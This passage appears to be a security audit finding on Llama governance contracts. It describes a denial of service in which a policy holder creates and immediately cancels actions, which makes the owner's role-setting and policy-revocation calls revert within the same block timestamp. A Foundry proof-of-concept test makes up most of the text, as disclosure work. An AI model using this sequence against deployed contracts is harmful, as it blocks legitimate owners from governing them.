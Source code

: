 Malicious existing policy holders can just spam create and cancelling actions until owners revoke permissions. 

## Note
I noticed that this is a fix to spearbit audit issue 5.3.4, but introduces another vulnerability where the ability to call `cancelAction()` anytime allowing it to be called within same `block.timestamp` as action creation by order creator is not accounted for.

## Proof of Concept
Add this test in `/test`
```solidity
pragma solidity ^0.8.19;

import {Test, console2, StdStorage, stdStorage} from "forge-std/Test.sol";
import {MockProtocol} from "test/mock/MockProtocol.sol";
import {Roles, LlamaTestSetup} from "test/utils/LlamaTestSetup.sol";
import {Action, ActionInfo, PermissionData, RoleHolderData, RolePermissionData} from "src/lib/Structs.sol";
import {LlamaCore} from "src/LlamaCore.sol";
import {LlamaPolicy} from "src/LlamaPolicy.sol";
import {LlamaCoreTest} from "test/LlamaCore.t.sol";

contract LlamaCoreAttack is LlamaCoreTest {
   ActionInfo actionInfo; 

   // 1. Setup
  function setUp() public virtual override {
    LlamaCoreTest.setUp();
  }
  
  function test_setRoleHolderFailure() public {
    // 2. Create arbritrary action using creator Aaron
    bytes memory data = abi.encodeCall(MockProtocol.pause, (true));
    vm.prank(actionCreatorAaron);
    uint256 actionId = mpCore.createAction(uint8(Roles.ActionCreator), mpStrategy1, address(mockProtocol), 0, data, "");
    actionInfo =
      ActionInfo(actionId, actionCreatorAaron, uint8(Roles.ActionCreator), mpStrategy1, address(mockProtocol), 0, data);

    // 3. Cancel action immediately within same transaction, since cancelAction can be called anytime
    vm.prank(actionCreatorAaron);
    mpCore.cancelAction(actionInfo);

    // 4. In the event where at the same `block.timestamp`, owner tries to set role for policy holder but reverts
    // even though actions has already been cancelled
    // As such, owner is unnecessarily DoSed from setting roles for policyholders
    address actionCreatorAustin = makeAddr("actionCreatorAustin");
    vm.prank(address(mpExecutor));
    vm.expectRevert(LlamaPolicy.ActionCreationAtSameTimestamp.selector);
    mpPolicy.setRoleHolder(uint8(Roles.TestRole2), actionCreatorAustin, DEFAULT_ROLE_QTY, DEFAULT_ROLE_EXPIRATION);

    // 5. In the event where at the same `block.timestamp`, owner tries to revoke policy
    // he is prevented from doing so simply because creationTime is never updated after cancellation
    vm.prank(address(mpExecutor));
    vm.expectRevert(LlamaPolicy.ActionCreationAtSameTimestamp.selector);    
    mpPolicy.revokePolicy(actionCreatorAaron);
  }
```
